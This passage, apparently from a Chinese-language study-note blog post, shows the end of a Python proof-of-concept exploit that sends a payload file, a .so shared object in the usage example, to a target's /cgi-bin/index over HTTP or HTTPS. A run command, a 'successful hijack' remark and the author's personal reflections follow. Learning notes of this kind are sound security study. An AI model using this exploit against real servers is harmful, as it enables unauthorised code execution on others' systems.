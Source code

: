 ```python
    client.send(data)
    resp = client.recv(20480)
    print(resp.decode())


def main():
    target = sys.argv[1]
    payload_filename = sys.argv[2]

    with open(payload_filename, 'rb') as f:
        data = f.read()

    if len(data) > PAYLOAD_MAX_LENGTH:
        raise Exception('payload size must not larger than %d', PAYLOAD_MAX_LENGTH)

    parts = urlparse(target)
    port = parts.port
    if not parts.port:
        if parts.scheme == 'https':
            port = 443
        else:
            port = 80

    context = ssl.create_default_context()
    with socket.create_connection((parts.hostname, port), timeout=8) as client:
        if parts.scheme == 'https':
            with context.wrap_socket(client, server_hostname=parts.hostname) as ssock:
                exploit(ssock, parts, data)

        else:
            exploit(client, parts, data)


if __name__ == '__main__':
    main()
```

```bash
$ python3 poc.py http://target-ip:8080/cgi-bin/index /path/to/payload.so
```

![image-20220323003607010](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220323003607010.png)

成功劫持

————由于最近也学习了CL&TE头的相关内容，再看到这里的实现细节感觉还挺亲切的（说明自己学的实在太少了（

------

是学习笔记，有很多疏漏还请谅解（

一直不开学，在家几个月多少有点懈怠，但是时间不等人啊，不要荒废了自己








